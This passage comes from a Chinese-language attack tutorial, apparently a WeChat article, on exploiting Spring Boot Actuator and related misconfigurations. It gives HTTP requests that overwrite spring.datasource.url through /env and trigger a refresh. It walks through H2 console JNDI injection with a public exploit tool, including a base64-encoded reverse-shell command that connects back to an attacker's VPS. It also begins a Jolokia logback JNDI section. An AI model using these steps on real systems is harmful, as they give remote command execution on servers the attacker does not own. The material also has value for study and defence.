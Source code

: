 同理判断是否存在 /env 或/actuator/env  
```
//spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值

//spring 2.x
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```  
  
修改完成后进行刷新配置，再触发即可访问 /refresh或/actuator/refresh刷新配置，最后触发查询，访问/product/list去触发漏洞，如果没有则需要找其他数据库查询接口  
  
修复业务：需要还原spring.datasource.url的value值为初始的，以防损害业务！！  
# h2 database console JNDI 命令执行  
  
简述：H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spring开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权  
```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```  
  
利用条件：存在下述界面：访问/h2-console  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlibIrxDtsJcrgP7ynHSqD5rf2xHy5Eq9c4urygBgZbuYXepvmsyujU2w/640?wx_fmt=png&from=appmsg "null")  
  
漏洞利用：https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0  
  
1、下载后放入vps中加载，运行命令如下，注意这里版本需要java8环境  
```
//执行：bash -i >& /dev/tcp/VPS/1234 0>&1 的Base64
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'bash -c {echo,反弹shell的base64}|{base64,-d}|{bash,-i}' -A VPS
```  
  
2、开启vps监听端口3333  
  
选择生成的url links，这里用rmi地址  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hlam2zc81glRGX1p206Mb9Sib0ohHibiaBhuhWYF8MJ7p97Zd6sFENnpWOw/640?wx_fmt=png&from=appmsg "null")  
  
监听端口成功反弹shell![image.png]  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hlam2zc81glRGX1p206Mb9Sib0ohHibiaBhuhWYF8MJ7p97Zd6sFENnpWOw/640?wx_fmt=png&from=appmsg "null")  
# jolokia logback JNDI 命令执行  
  
简介：Jolokia是一款开源产品，用于为JMX（Java Management Extensions）技术提供HTTP API接口。其中，该产品提供了一个API，用于调用在服务器上注册的MBean并读/写其属性。JMX技术用于管理和监视设备、应用程序和网络驱动的服务。利用条件：看网站是否泄露/jolokia或/actuator/jolokia接口，进一步看目标是否使用jolokia- core依赖，判断是否出网，漏洞利用是JDNI注入，版本限制为：jdk < 6u201/7u191/8u182/11.0.1(LDAP)  
  